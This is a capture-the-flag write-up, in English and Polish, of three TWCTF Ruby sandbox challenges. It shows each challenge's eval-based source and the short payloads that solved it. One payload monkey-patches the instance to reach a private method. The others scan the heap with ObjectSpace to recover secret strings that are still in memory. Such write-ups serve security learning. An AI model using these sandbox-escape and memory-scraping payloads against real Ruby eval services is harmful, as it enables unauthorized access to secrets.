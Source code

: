 ## Private/Local/Comment (PPC, 50+70+100p)

###ENG
[PL](#pl-version)

Set of three tasks where we can execute some Ruby code to steal the flag.

#### Private

First task has code:

```ruby
require_relative 'restrict'
Restrict.set_timeout

class Private
  private
  public_methods.each do |method|
    eval "def #{method.to_s};end"
  end

  def flag
    return "TWCTF{CENSORED}"
  end
end

p = Private.new
Private = nil

input = STDIN.gets
fail unless input
input.size > 24 && input = input[0, 24]

Restrict.seccomp

STDOUT.puts eval(input)
```

So we can provide 24 characters and we need to get the value returned by `flag` method.
We can't call the method since all methods are now private.
To solve it we use a trick - we monkey patch a new method to the instance `p` and from this method we can call also private methods so exploit is:

```ruby
def p.x;flag end;p.x
```

#### Local & Comment

Attack for both of those was the same.

The code for local was

```ruby
require_relative 'restrict'
Restrict.set_timeout

def get_flag(x)
  flag = "TWCTF{CENSORED}"
  x
end

input = STDIN.gets
fail unless input
input.size > 60 && input = input[0, 60]

Restrict.seccomp

STDOUT.puts get_flag(eval(input))
```

and for comment was:

```ruby
require_relative 'restrict'
Restrict.set_timeout

input = STDIN.gets
fail unless input
input.size > 60 && input = input[0, 60]

require_relative 'comment_flag'
Restrict.seccomp

STDOUT.puts eval(input)
```

```ruby
# FLAG is TWCTF{CENSORED}
```

In both cases we searched the heap memory looking for the flag string stored in not-yet garbage collected memory using `ObjectSpace`:

For local:
```ruby
ObjectSpace.each_object(String){|x|x[3]=="T"and print x}
```

And for comment:
```ruby
ObjectSpace.each_object(String){|x|x[15]=='{'and print x}
```

###PL version

Zestaw 3 zadań w których możemy wykonać pewien kod Ruby aby ukraść flagę.

#### Private

Kod do pierwszego zadania:

```ruby
require_relative 'restrict'
Restrict.set_timeout

class Private
  private
  public_methods.each do |method|
    eval "def #{method.to_s};end"
  end

  def flag
    return "TWCTF{CENSORED}"
  end
end

p = Private.new
Private = nil

input = STDIN.gets
fail unless input
input.size > 24 && input = input[0, 24]

Restrict.seccomp

STDOUT.puts eval(input)
```

Możemy wysłać 24 znaki żeby pobrać wynik metody `flag`.
Nie możemy jej po prostu wywołać bo jest prywatna.
Aby obejść nasz problem definiujemy nową metodę instancji `p` za pomocą monkey-patchingu i z tejże metody możemy wołać juz metody prywatne:

```ruby
def p.x;flag end;p.x
```

#### Local & Comment

Atak dla obu zadań był taki sam.

Kod dla local:

```ruby
require_relative 'restrict'
Restrict.set_timeout

def get_flag(x)
  flag = "TWCTF{CENSORED}"
  x
end

input = STDIN.gets
fail unless input
input.size > 60 && input = input[0, 60]

Restrict.seccomp

STDOUT.puts get_flag(eval(input))
```

i dla comment:

```ruby
require_relative 'restrict'
Restrict.set_timeout

input = STDIN.gets
fail unless input
input.size > 60 && input = input[0, 60]

require_relative 'comment_flag'
Restrict.seccomp

STDOUT.puts eval(input)
```

```ruby
# FLAG is TWCTF{CENSORED}
```

W obu przypadkach przeglądneliśmy stertę w poszukiwaniu stringa z flagą w jeszcze nie zwolnionej pamięci za pomocą `ObjectSpace`:

Dla local:
```ruby
ObjectSpace.each_object(String){|x|x[3]=="T"and print x}
```

Dla comment:
```ruby
ObjectSpace.each_object(String){|x|x[15]=='{'and print x}
```
